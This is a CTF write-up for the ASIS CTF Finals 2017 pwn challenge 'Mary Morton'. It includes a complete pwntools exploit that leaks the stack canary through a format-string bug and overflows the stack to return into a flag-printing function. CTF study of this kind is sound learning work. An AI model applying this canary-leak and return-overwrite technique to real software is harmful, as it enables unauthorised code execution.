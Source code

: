 ```yaml
---
layout: post
alias: "/blog/2017/09/11/asis-ctf-finals-2017-mary-morton/"
date: "2017-09-11T08:09:08+09:00"
tags: [ "ctf", "writeup", "pwn", "asis-ctf" ]
---
```


# ASIS CTF Finals 2017: Mary Morton

他の問題が解けないのでプロが放置してたやるだけをやってお茶を濁した回。

## problem

```
$ nc 146.185.132.36 19153
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 

```

## solution

Read the canary with `2. Format String Bug`, then use `1. Stack Bufferoverflow Bug` to jump the function which calls `system("/bin/cat ./flag");`.

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='146.185.132.36')
parser.add_argument('port', nargs='?', default=19153, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='./mary_morton')
args = parser.parse_args()
context.log_level = args.log_level
context.binary = args.binary
elf = ELF(args.binary)

system_cat_flag = 0x4008da
p = remote(args.host, args.port)

menu = '''\
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
'''

# Format String Bug
p.sendlineafter(menu, '2')
p.sendline('%23$p')
canary = int(p.recvline(), 16)

# Stack Bufferoverflow Bug
payload = ''
payload += 'A' * 0x88
payload += p64(canary)
payload += 'B' * 8
payload += p64(system_cat_flag)
p.sendlineafter(menu, '1')
p.sendline(payload)

p.recvall()
```
